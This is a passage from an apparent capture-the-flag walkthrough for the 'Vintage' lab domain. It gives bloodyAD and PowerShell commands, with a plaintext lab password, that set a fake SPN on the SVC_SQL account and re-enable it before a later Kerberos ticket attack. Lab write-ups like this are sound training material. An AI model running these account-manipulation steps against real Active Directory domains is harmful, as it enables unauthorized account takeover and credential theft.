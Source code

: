 **[IMPORTANT! Both commands R7.1.+R7.2. below, have to be set fast,
otherwise impacket-getTGT won\'t work in STEP R8 !]{.mark}**

**R7.1. WORKED**

INFO: SVC_SQL's SPN (ServicePrincipalName) has been updated to
"cifs/fake"

**RUN: bloodyAD \--host dc01.vintage.htb -d \"VINTAGE.HTB\" \--dc-ip
10.10.11.45 -u c.neri -p \"Zer0the0ne\" -k set object \"SVC_SQL\"
servicePrincipalName -v \"cifs/fake\"**

![](images/media/image26.png){width="6.288888888888889in"
height="0.34097222222222223in"}

**R7.2. WORKED**

**RUN: Set-ADUser -Identity svc_sql -Enabled \$true**

(Run that on Target Server in POWERSHELL REMOTE SESSION)

**R7.3.**

INFO: This command doublechecks if the previous 2 were set correctly

**RUN: Get-ADUser -Identity svc_sql -Properties ServicePrincipalNames**

(Run that on Target Server in POWERSHELL REMOTE SESSION)

**Result should look like this**

![](images/media/image27.png){width="4.938389107611549in"
height="1.7327679352580927in"}

**In this example, Enabled is Flase. Solution: Run the command from
screenshot above to active it.**

